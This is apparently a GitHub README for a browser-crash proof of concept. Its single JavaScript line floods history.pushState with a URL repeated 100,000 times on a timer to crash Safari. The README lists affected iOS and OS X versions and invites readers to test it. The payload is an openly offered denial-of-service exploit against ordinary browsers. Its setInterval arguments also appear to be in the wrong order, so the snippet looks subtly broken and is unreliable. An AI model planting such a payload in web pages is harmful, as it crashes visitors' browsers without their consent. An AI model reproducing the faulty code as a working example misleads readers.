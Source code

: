 # safari_crash_poc
This is a POC of my bug that exploits "setInterval" and "history.pushState" to crash possibly multiple browsers, tested on OS X 10.11.6. (Please test it, I need to get an idea of support. I'll patch in your Twitter handle or give you a 3 character available GitHub. )
```javascript
setInterval(350,function f() {history.pushState(0,0,location+"af6.github.io/crash/".repeat(100000));});
```
# credits
me (duh)
# support
iOS 10
OS X 10.11.6
# probable support
iOS 11.X.X
iOS 9.X.X
macOS 10.12.X
macOS 10.13.X

